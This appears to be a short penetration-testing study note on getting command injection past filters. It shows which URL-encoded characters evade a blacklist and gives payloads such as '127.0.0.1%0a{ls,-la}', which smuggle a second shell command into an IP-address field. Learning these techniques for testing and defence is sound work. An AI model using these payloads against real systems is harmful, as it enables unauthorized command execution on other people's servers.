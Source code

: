 ## Bypass Blacklisted Operators
One at a time, test characters to see if they are blacklisted.
- %0a       \n              success
- +         space            fail
- %09        tab            success
- ${IFS}   space and tab    success
```shell-session
127.0.0.1%0a
127.0.0.1%0a%09
127.0.0.1%0a${IFS}
```


**Brace Expansion
Automatically adds spaces between arguments wrapped between braces:
```bash
{ls,-la}
```
So, our payload can be:
```
127.0.0.1%0a{ls,-la}
```

Bypassing spaces: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection#bypass-without-space
